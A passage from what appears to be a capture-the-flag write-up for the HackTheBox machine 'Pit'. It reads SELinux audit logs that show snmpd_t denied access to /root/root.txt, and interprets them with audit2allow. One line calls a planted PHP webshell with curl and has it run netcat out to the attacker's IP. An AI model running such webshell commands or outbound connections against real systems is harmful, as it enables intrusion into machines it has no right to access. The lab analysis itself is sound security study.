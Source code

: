 
In permissive mode, three logs were created:

    
    
    type=AVC msg=audit(1632502973.982:5226): avc:  denied  { read } for  pid=14524 comm="cat" name="root.txt" dev="dm-0" ino=2435300 scontext=system_u:system_r:snmpd_t:s0 tcontext=unconfined_u:object_r:admin_home_t:s0 tclass=file permissive=1
    type=AVC msg=audit(1632502973.982:5226): avc:  denied  { open } for  pid=14524 comm="cat" path="/root/root.txt" dev="dm-0" ino=2435300 scontext=system_u:system_r:snmpd_t:s0 tcontext=unconfined_u:object_r:admin_home_t:s0 tclass=file permissive=1
    type=AVC msg=audit(1632502973.982:5227): avc:  denied  { getattr } for  pid=14524 comm="cat" path="/root/root.txt" dev="dm-0" ino=2435300 scontext=system_u:system_r:snmpd_t:s0 tcontext=unconfined_u:object_r:admin_home_t:s0 tclass=file permissive=1
    

The first was exactly the same as the previous log, except `permissive=1`
instead of 0. Both of those were for the `read` syscall. The next two log in
permissive mode were for the `open` and `getattr` on `root.txt`.

In all the logs, I can see the issue is with the `snmpd_t` role trying to
access `admin_home_t`. If I pipe that log into `audit2allow`, it shows how to
configure the system to not block this:

    
    
    [root@pit audit]# cat audit.log | grep read | grep root.txt | tail -1 | audit2allow 
    
    #============= snmpd_t ==============
    allow snmpd_t admin_home_t:file read;
    

In this case, `snmpd_t` would need `file read` access to `admin_home_t`.

### Webshell

The reverse shell from the webshell was another thing that was blocked. In
fact, any connection out to me was blocked. To demonstrate, I’l run `nc` over
the webshell to just connect to my host:

    
    
    oxdf@parrot$ curl -G --data-urlencode 'cmd=nc 10.10.14.7 443' http://dms-pit.htb/seeddms51x/data/1048576/29/1.php
    

It generates these logs:

    
    
    type=AVC msg=audit(1632504453.554:5282): avc:  denied  { name_connect } for  pid=15554 comm="nc" dest=443 scontext=system_u:system_r:httpd_t:s0 tcontext=system_u:object_r:http_port_t:s0 tclass=tcp_socket permissive=0
    type=SYSCALL msg=audit(1632504453.554:5282): arch=c000003e syscall=42 success=no exit=-13 a0=3 a1=5635357392c0 a2=10 a3=3 items=0 ppid=15428 pid=15554 auid=4294967295 uid=992 gid=988 euid=992 suid=992 fsuid=992 egid=988 sgid=988 fsgid=988 tty=(none) ses=4294967295 comm="nc" exe="/usr/bin/ncat" subj=system_u:system_r:httpd_t:s0 key=(null)ARCH=x86_64 SYSCALL=connect AUID="unset" UID="nginx" GID="nginx" EUID="nginx" SUID="nginx" FSUID="nginx" EGID="nginx" SGID="nginx" FSGID="nginx"
    type=PROCTITLE msg=audit(1632504453.554:5282): proctitle=6E630031302E31302E31342E3700343433
    

I can feed that into `audit2why` to get more details about what’s going on:
